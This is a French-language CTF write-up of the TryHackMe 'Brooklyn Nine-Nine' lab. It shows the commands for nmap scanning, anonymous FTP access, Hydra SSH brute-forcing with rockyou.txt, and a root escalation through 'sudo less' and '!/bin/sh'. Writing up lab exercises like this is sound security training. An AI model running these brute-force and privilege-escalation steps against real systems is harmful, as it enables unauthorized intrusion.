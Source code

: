 ```yaml
---
title: "Write-up : TryHackMe - Brooklyn Nine-Nine"
date: 2025-04-22T09:00:00+02:00
draft: false
author: "AntoineWHR"
tags: ["TryHackMe", "CTF", "Linux", "FTP", "SSH", "Sudo", "Less"]
categories: ["WriteUps"]
comment:
  enable: true
description: "Solution pas à pas du challenge TryHackMe Brooklyn Nine-Nine, de la reconnaissance à l'accès root."
---
```


<!--more-->

# **Write-up : TryHackMe - Brooklyn Nine-Nine**

{{< admonition info "Informations sur la Room" >}}
*   **Nom :** Brooklyn Nine-Nine
*   **Plateforme :** TryHackMe
*   **Lien :** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)
*   **Difficulté Annoncée :** Facile (Easy)
*   **Objectif :** Obtenir les flags `user.txt` et `root.txt`.
{{< /admonition >}}

## **Introduction**

Ce challenge nous plonge dans l'univers de la série Brooklyn 99. Notre mission est de compromettre le serveur utilisé par l'équipe et de récupérer les flags utilisateur et root, en exploitant probablement quelques faiblesses laissées par nos personnages préférés.

## **Phase 1 : Reconnaissance & Énumération**

### **1. Scan des Ports (Nmap)**

Comme toujours, commençons par un scan Nmap pour identifier les services exposés sur la machine cible.

```bash
nmap -sC -sV <IP_SERVEUR>
# -sC: Utilise les scripts Nmap par défaut
# -sV: Tente de déterminer la version des services
```

![](/images/nmap1.png)

{{< admonition note "Résultats Clés du Scan Nmap" >}}
Le scan révèle trois ports ouverts principaux :

*   **Port 21 (FTP) :** vsftpd - Permet la connexion anonyme (`Anonymous FTP login allowed`). C'est une piste prioritaire !
*   **Port 22 (SSH) :** OpenSSH
*   **Port 80 (HTTP) :** Apache
{{< /admonition >}}

### **2. Exploration FTP**

La possibilité de connexion anonyme sur le FTP est une piste intéressante. Connectons-nous :

```bash
ftp -p <IP_SERVEUR> <PORT>
# Nom : Anonymous
# Mot de passe : <laisser vide>
```

Une fois connecté, on liste les fichiers et on trouve la note : `note_to_jake.txt`. Téléchargeons-la (`get note_to_jake.txt`) et examinons son contenu (`cat note_to_jake.txt`).

![](/images/ftp2.png)

{{< admonition tip "Indice Crucial de la Note FTP" >}}
La note mentionne que Jake a un mot de passe très faible. (ça lui ressemble bien)
C'est une information capitale pour la suite !
{{< /admonition >}}

### **3. Exploration Web (HTTP)**

Avant de tenter le brute-force, jetons un œil au serveur web sur le port 80. La page d'accueil par défaut d'Apache ne révèle rien d'immédiat. Utilisons `feroxbuster` (ou `gobuster`/`dirb`) pour chercher des répertoires ou fichiers cachés.

```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<IP_SERVEUR>/
# -w : Spécifie la wordlist
# -u : L'URL cible
```

Malgré l'énumération web, aucun répertoire ou fichier intéressant n'a été découvert lors de cette étape.

## **Phase 2 : Exploitation - Accès Initial (User Flag)**

### **Brute-force SSH avec Hydra**

Forts de l'indice trouvé dans la note FTP ("mot de passe très simple" pour l'utilisateur "jake"), nous allons tenter une attaque par brute-force sur le service SSH (port 22) en utilisant Hydra. Nous utiliserons `rockyou.txt`, une wordlist très commune, en espérant y trouver le mot de passe faible.

```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://<IP_SERVEUR>/ -f
# -l jake : Spécifie le nom d'utilisateur cible
# -P /usr/share/wordlists/rockyou.txt : Spécifie le fichier de mots de passe
# ssh://<IP_SERVEUR>/ : Spécifie le service et l'hôte cible
# -f : Arrête Hydra dès qu'un mot de passe valide est trouvé
```

![](/images/hydra3.png)

Succès ! Hydra trouve rapidement le mot de passe : `987654321`.

### **Connexion SSH et Flag Utilisateur**

Connectons-nous maintenant en SSH avec les identifiants trouvés :

```bash
ssh jake@<IP_SERVEUR>
# Entrer le mot de passe : 987654321
```

Une fois connecté, nous cherchons le flag utilisateur (`user.txt`). Après un peu d'exploration (ou en suivant les conventions habituelles), on le trouve dans le répertoire `/home/holt`. Clin d'œil amusant à la série !

```bash
ls /home/holt/
cat /home/holt/user.txt
```

![](/images/ssh4.png)

**Flag Utilisateur Obtenu !**

---

## **Phase 3 : Élévation de Privilèges (Root Flag)**

### **Vérification des Privilèges Sudo**

Maintenant que nous avons un accès en tant que `jake`, cherchons comment devenir `root`. Une des premières commandes à vérifier est `sudo -l`, qui liste les commandes que l'utilisateur actuel peut exécuter avec `sudo`.

```bash
sudo -l
```

{{< admonition warning "Résultat Sudo - Porte Ouverte !" >}}
La sortie indique que l'utilisateur `jake` peut exécuter la commande `/usr/bin/less` en tant que `root` sans mot de passe (`NOPASSWD`). C'est une faille de configuration classique !
```text
User jake may run the following commands on :
    (ALL : ALL) NOPASSWD: /usr/bin/less
```
{{< /admonition >}}

### **Exploitation via `less` (GTFOBins)**

Certains binaires Linux, même ceux qui semblent inoffensifs comme `less` (un paginateur de texte), peuvent être détournés pour obtenir un shell s'ils sont exécutés avec des privilèges élevés. Le site [GTFOBins](https://gtfobins.github.io/) est une ressource fantastique pour trouver de telles techniques.

En cherchant `less` sur GTFOBins, nous trouvons une section "Sudo".

{{< admonition tip "Technique d'Exploitation `less` (GTFOBins)" >}}
La technique est simple :
1.  Exécuter `less` via `sudo` sur n'importe quel fichier (par exemple `/etc/profile`).
2.  Une fois dans l'interface de `less`, taper `!/bin/sh` (ou `!/bin/bash`). Le `!` permet d'exécuter une commande shell depuis `less`.

Appliquons cela :
```bash
sudo less /etc/profile
```
Puis, dans `less`, tapez :
```sh
!/bin/sh
```
Appuyez sur Entrée.
{{< /admonition >}}

### **Accès Root et Flag Root**

Nous sommes maintenant `root`. Il ne reste plus qu'à récupérer le flag final, généralement situé dans `/root/root.txt`.

```bash
# cd /root
# ls
root.txt
# cat root.txt
```

![](/images/root5.png)

**Flag Root Obtenu ! Challenge Terminé !**

## **Conclusion**

Ce challenge "Brooklyn Nine-Nine" était une excellente introduction aux concepts de base du CTF :

1.  **Énumération :** Scan de ports (Nmap), découverte de services (FTP anonyme, SSH, HTTP), énumération web (feroxbuster).
2.  **Exploitation :** Utilisation d'indices (note FTP) pour cibler une attaque (brute-force SSH avec Hydra).
3.  **Élévation de Privilèges :** Vérification des permissions `sudo` (`sudo -l`) et exploitation d'une mauvaise configuration via un binaire autorisé (exploitation de `less` via GTFOBins).

C'était une room amusante et bien thématisée, parfaite pour les débutants.

> PS : Jake change de mdp stp
